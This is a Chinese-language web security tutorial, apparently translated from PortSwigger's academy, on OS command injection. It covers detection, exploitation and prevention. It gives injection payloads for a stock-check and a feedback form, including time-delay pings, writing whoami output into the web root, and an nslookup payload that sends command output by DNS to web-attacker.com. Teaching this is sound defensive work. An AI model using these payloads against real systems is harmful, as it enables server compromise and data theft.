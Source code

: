 # 操作系统命令注入

## 什么是OS命令注入？

在本节中，我们将解释什么是操作系统命令注入，描述如何检测和利用漏洞，阐述一些针对不同操作系统的有用命令和技术，并总结如何防止操作系统命令注入。

![](../.gitbook/assets/image%20%285%29%20%283%29%20%283%29%20%283%29%20%284%29.png)

OS命令注入（也称为外壳程序注入）是一个web安全漏洞，它使攻击者可以在运行应用程序的服务器上执行任意操作系统（OS）命令，并且通常会完全破坏该应用程序及其所有数据。 攻击者通常可以利用OS命令注入漏洞来破坏托管基础结构的其他部分，利用信任关系将攻击转移到组织内的其他系统。

{% embed url="https://www.youtube.com/watch?v=8PDDjCW5XWw" %}

## 执行任意命令

考虑一个购物应用程序，该应用程序使用户可以查看特定商店中某商品是否有库存。 该信息可通过如下网址访问：

```text
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

为了提供库存信息，应用程序必须查询各种旧系统。 由于历史原因，该功能是通过使用产品和存储ID作为参数调用shell命令来实现的：

```text
stockreport.pl 381 29
```

此命令输出指定项目的库存状态，并返回给用户。

由于该应用程序无法防御OS命令注入，因此攻击者可以提交以下输入以执行任意命令：

```text
& echo aiwefwlguh &
```

如果此输入是在productID参数中提交的，那么应用程序执行的命令是：

```text
stockreport.pl & echo aiwefwlguh & 29
```

echo命令只是使提供的字符串在输出中回显，并且是测试某些类型的OS命令注入的有用方法。 ＆字符是shell命令分隔符，因此执行的实际上是一个接一个的三个独立命令。 因此，返回给用户的输出为：

```text
Error - productID was not providedaiwefwlguh29: command not found
```

输出的三行表明：

* 原始的stockreport.pl命令在没有预期参数的情况下执行，因此返回了错误消息。
* 执行注入的echo命令，并且在输出中回显提供的字符串。
* 原始参数29作为命令执行，从而导致错误。

通常，将附加命令分隔符＆放置在注入命令之后是很有用的，因为这会将注入命令与注入点后面的内容分开。 这减少了随后发生的事情将阻止注入的命令执行的可能性。

**实验室**[OS命令注入，简单案例](http://portswigger.cn/academy/subpage/allTopics/all-5.html#)

## 有用的命令

当您确定了OS命令注入漏洞后，通常可以执行一些初始命令来获取有关您受到破坏的系统的信息。 以下是在Linux和Windows平台上有用的一些命令的摘要：

| 命令目的 | Linux | Windows |
| :--- | :--- | :--- |
| 当前用户名 | `whoami` | `whoami` |
| 操作系统 | `uname -a` | `ver` |
| 网络配置 | `ifconfig` | `ipconfig /all` |
| 网络连接 | `netstat -an` | `netstat -an` |
| 运行过程 | `ps -ef` | `任务列表` |

## 盲操作系统命令注入漏洞

OS命令注入的许多实例都是盲目的漏洞。 这意味着应用程序不会在其HTTP响应中返回命令的输出。 盲目漏洞仍然可以被利用，但是需要不同的技术。

考虑一个允许用户提交有关该站点的反馈的网站。 用户输入他们的电子邮件地址和反馈消息。 然后，服务器端应用程序会向站点管理员生成一封包含反馈的电子邮件。 为此，它使用提交的详细信息调出邮件程序。 例如：

```text
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

mail命令的输出（如果有）不会在应用程序的响应中返回，因此使用echo有效负载将无效。 在这种情况下，您可以使用多种其他技术来检测和利用漏洞。

### 使用时间延迟检测盲注OS命令注入

您可以使用注入的命令来触发时间延迟，从而允许您根据应用程序响应的时间来确认命令已执行。 ping命令是执行此操作的有效方法，因为它使您可以指定要发送的ICMP数据包的数量，从而指定该命令运行所花费的时间：

```text
& ping -c 10 127.0.0.1 &
```

此命令将导致应用程序ping其环回网络适配器10秒钟。

**实验室**[带有延迟的盲OS命令注入](http://portswigger.cn/academy/subpage/allTopics/all-5.html#detecting-blind-os-command-injection-using-time-delays)

### 通过重定向输出来利用盲OS命令注入

您可以将注入命令的输出重定向到web根目录下的文件中，然后可以使用浏览器进行检索。 例如，如果应用程序从文件系统位置/var/www/static提供静态资源，则可以提交以下输入：

```text
& whoami > /var/www/static/whoami.txt &
```

&gt;字符将whoami命令的输出发送到指定文件。 然后，您可以使用浏览器获取[https://vulnerable-website.com/whoami.txt来检索文件，并查看注入命令的输出。](https://vulnerable-website.com/whoami.txt来检索文件，并查看注入命令的输出。)

使用带外（OAST）技术利用盲OS命令注入

您可以使用注入的命令，通过OAST技术触发与您控制的系统的带外网络交互。 例如：

```text
& nslookup kgji2ohoyw.web-attacker.com &
```

此有效负载使用nslookup命令对指定域进行DNS查找。 攻击者可以监视是否发生了指定的查找，从而检测到命令已成功注入。

带外通道还提供了一种从注入的命令中提取输出的简便方法：

```text
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

这将导致对包含whoami命令结果的攻击者域的DNS查找：

```text
wwwuser.kgji2ohoyw.web-attacker.com
```

**实验室**[带带外数据渗透的盲OS命令注入](http://portswigger.cn/academy/subpage/allTopics/all-5.html#)

## 注入OS命令的方式

可以使用各种shell元字符来执行OS命令注入攻击。

许多字符用作命令分隔符，使命令可以链接在一起。 以下命令分隔符在Windows和基于Unix的系统上均可使用：

* `&`
* `&&`
* `|`
* `||`

以下命令分隔符仅在基于Unix的系统上工作：

* `;`
* Newline \(`0x0a` or `\n`\)

在基于Unix的系统上，您还可以使用反引号或美元字符在原始命令内对注入的命令执行内联执行：

* \`\`\` 注入命令 \`\`\`
* `$(` 注入命令 `)`

请注意，不同的shell元字符具有细微不同的行为，这可能会影响它们是否在某些情况下起作用，以及它们是否允许带内检索命令输出或仅对盲目利用有用。

有时，您控制的输入会出现在原始命令的引号中。 在这种情况下，需要先使用引号终止上下文（使用“或”），然后再使用适当的shell元字符来插入新命令。

## 如何防止OS命令注入攻击

到目前为止，防止OS命令注入漏洞的最有效方法是永远不要从应用程序层代码中调用OS命令。 几乎在每种情况下，都有使用更安全的平台API来实现所需功能的替代方法。

如果认为无法避免使用用户提供的输入来调用OS命令，则必须执行强输入验证。 有效验证的一些示例包括：

* 根据允许值的白名单进行验证。
* 验证输入是否为数字。
* 验证输入仅包含字母数字字符，不包含其他语法或空格。

切勿尝试通过转义shell元字符来清理输入。 实际上，这太容易出错，容易被熟练的攻击者绕开。


